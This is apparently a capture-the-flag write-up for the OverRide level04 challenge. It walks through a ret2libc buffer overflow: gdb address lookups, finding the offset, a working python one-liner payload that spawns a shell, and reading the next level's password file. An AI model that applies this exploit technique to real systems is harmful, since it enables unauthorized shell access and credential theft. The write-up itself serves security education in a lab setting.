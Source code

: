 # level04

In this program, we have an unsafe `gets` call used in the child process after a`fork`.
Even though the program mentions shellcode, we’re going to try something else: a **ret2libc attack**.

The concept is simple: we overwrite the return address (EIP) with the address of `system` and supply `/bin/sh` (or another command) as its argument. The attack requires:

- The address of system
- A return address (e.g., the address of exit)
- A memory location where the string /bin/sh resides

Let's find those with *gdb*. For system and exit, this is straightforward:

```bash
level04@OverRide:~$ gdb -q level04
Reading symbols from /home/users/level04/level04...(no debugging symbols found)...done.
(gdb) b main
Breakpoint 1 at 0x80486cd
(gdb) r
Starting program: /home/users/level04/level04

Breakpoint 1, 0x080486cd in main ()
(gdb) p system
$1 = {<text variable, no debug info>} 0xf7e6aed0 <system>
(gdb) p exit
$2 = {<text variable, no debug info>} 0xf7e5eb70 <exit>
```

To locate /bin/sh in memory, we’ll search through libc:

```bash
(gdb) find __libc_start_main,+99999999,"/bin/sh"
0xf7f897ec
warning: Unable to access target memory at 0xf7fd3b74, halting search.
1 pattern found.
```

Pretty aggresive I'll admit, but it's fast.
If it weren’t found, we could inject it via an environment variable.

Now we'll use our pattern generator to determine the offset at which EIP is overwritten.
Because the `gets` call happens in the child process, we need to follow the child in *gdb*:

```bash
(gdb) set follow-fork-mode child
(gdb) r
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/users/level04/level04

[New process 1939]
Give me some shellcode, k
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag

Program received signal SIGSEGV, Segmentation fault.
[Switching to process 1939]
0x41326641 in ?? ()
```

This tells us that the offset to EIP is 156 bytes.

We’ll build a payload like this:

- 156 bytes of padding
- Address of `system` → `0xf7e6aed0`
- Address of `exit` → `0xf7e5eb70`
- Address of `/bin/sh` → `0xf7f897ec`

Here’s the one-liner:

```bash
(cat <(python -c 'print("a" * 156 + "\xd0\xae\xe6\xf7" + "\x70\xeb\xe5\xf7" + "\xec\x97\xf8\xf7")') -) | ./level04
```

Let's get the flag:

```bash
level04@OverRide:~$ (cat <(python -c 'print("a" * 156 + "\xd0\xae\xe6\xf7" + "\x70\xeb\xe5\xf7" + "\xec\x97\xf8\xf7")') -) | ./level04
Give me some shellcode, k
whoami
level05
cat /home/users/level05/.pass
<flag>
```
